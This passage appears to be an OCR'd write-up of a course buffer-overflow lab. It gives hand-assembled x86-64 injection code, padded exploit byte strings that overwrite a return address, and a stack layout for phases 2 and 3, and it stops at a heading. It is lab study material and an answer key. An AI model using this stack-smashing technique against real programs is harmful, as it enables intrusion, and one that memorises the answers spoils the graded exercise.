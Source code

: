 ```asm
exploit_code:
  0:	48 83 ec 10         sub    $0x10,%rsp           # rsp = cbuff_end (&touch2_addr)
  4:	bf fa 97 b9 59      mov    $0x59b997fa,%edi     # edi = cookie
  9:	c3                  ret                         # return (call touch2)
```

expliot_code: `48 83 ec 10 bf fa 97 b9 59 c3`

## The Exploit String

```asm
48 83 ec 10 bf fa 97 b9   /* cbuff_start: exploit_code */
59 c3 ff ff ff ff ff ff   /* cbuff_8:     exploit_code */
ff ff ff ff ff ff ff ff   /* cbuff_16:    filler */
ff ff ff ff ff ff ff ff   /* cbuff_24:    filler */
ec 17 40 00 00 00 00 00   /* cbuff_end:   touch2_addr */
78 dc 61 55 00 00 00 00   /* return_addr: cbuff_start */
```

# Phase 3 Solution

## Stack State

| Name        | offset | content      | value[hex string]       | comment |
| ----------- | ------ | ------------ | ----------------------- | ------- |
| caller_0    | 0      |              |                         | rsp     |
| return_addr | -8     | cbuff_start  | 78 dc 61 55 00 00 00 00 |         |
| cbuff_end   | -16    | empty        | 00 00 00 00 00 00 00 00 |         |
| cbuff_24    | -24    | cookie_str   | 35 39 62 39 39 37 66 61 |         |
| cbuff_16    | -32    | touch3_addr  | fa 18 40 00 00 00 00 00 |         |
| cbuff_8     | -40    | exploit_code | 08 c3 ff ff ff ff ff ff |         |
| cbuff_start | -48    | exploit_code | 48 83 ec 20 48 8d 7c 24 | rip     |

## The Exploit Code

```asm
exploit_code:
  0:	48 83 ec 20         sub    $0x20,%rsp         # rsp = cbuff_16 (&touch3_addr)
  4:	48 8d 7c 24 08      lea    0x8(%rsp),%rdi     # rdi = cbuff_24 (&cookie_str)
  9:	c3                  ret                       # return (call touch3)
```

exploit_code: `48 83 ec 20 48 8d 7c 24 08 c3`

## The Exploit String
